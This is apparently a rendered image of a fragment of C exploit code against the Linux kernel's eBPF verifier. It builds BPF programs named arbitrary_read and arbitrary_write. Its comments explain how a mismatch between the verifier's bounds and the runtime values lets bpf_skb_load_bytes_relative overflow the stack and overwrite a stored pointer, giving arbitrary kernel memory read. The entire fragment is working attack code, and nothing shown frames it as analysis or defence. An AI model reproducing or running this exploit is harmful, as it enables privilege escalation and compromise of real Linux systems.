```c
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

        // if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
        BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5),
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
        BPF_MOV64_IMM(BPF_REG_2, 1),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard),
        BPF_MOV64_IMM(BPF_REG_0, 2),
        BPF_EXIT_INSN(),

        // verifier believe r0 = 0 and r1 = 0. However, r0 = 0 and  r1 = 1 on runtime.

        // r7 = (r1 + 1) * 8
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_1),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 1),
        BPF_ALU64_IMM(BPF_MUL, BPF_REG_7, 8),

        // verifier believe r7 = 8, but r7 = 16 actually.

        // store the array pointer
        BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_8, -8),

        // overwrite array pointer on stack

        // r0 = bpf_skb_load_bytes_relative(r9, 0, r8, r7, 0)
        BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),
        BPF_MOV64_IMM(BPF_REG_2, 0),
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16),
        BPF_MOV64_REG(BPF_REG_4, BPF_REG_7),
        BPF_MOV64_IMM(BPF_REG_5, 1),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative),

        // fetch our arbitrary address pointer
        BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8),
        
        BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_6, 0),
        BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_0, 0),

        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN()
    };

    arbitrary_read_prog = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, arbitrary_read, sizeof(arbitrary_read) / sizeof(arbitrary_read[0]), "");
    if (arbitrary_read_prog < 0) {
        WARNF("Could not load program(arbitrary_write):\n %s", bpf_log_buf);
        goto abort;
    }

    struct bpf_insn arbitrary_write[] = {
        // r9 = r1
        BPF_MOV64_REG(BPF_REG_9, BPF_REG_1),

        // r0 = bpf_lookup_elem(ctx->comm_fd, 0)
        BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd),
        BPF_ST_MEM(BPF_DW, BPF_REG_10, -8, 0),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),

        // if (r0 == NULL) exit(1)
```